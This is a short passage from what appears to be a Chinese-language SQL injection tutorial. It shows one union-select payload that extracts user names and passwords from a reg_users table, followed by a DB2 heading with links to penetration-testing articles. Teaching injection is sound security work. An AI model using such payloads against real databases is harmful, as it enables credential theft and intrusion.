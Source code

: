 ~~~sql
-获取数据：
and 1=2 union select null,string_agg(name,','),string_agg(password,','),null from reg_users
~~~

![image-20250112211319061](.\SQL注入原理.assets\image-20250112211319061.png)

![image-20250112211415799](.\SQL注入原理.assets\image-20250112211415799.png)

## DB2

参考文章：

[本篇文章是干货，完全讲注入，记得保存 三db2注入 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/343447.html)

[DB2在渗透中的应用(转载) - micr067 - 博客园](https://www.cnblogs.com/micr067/p/14257664.html)
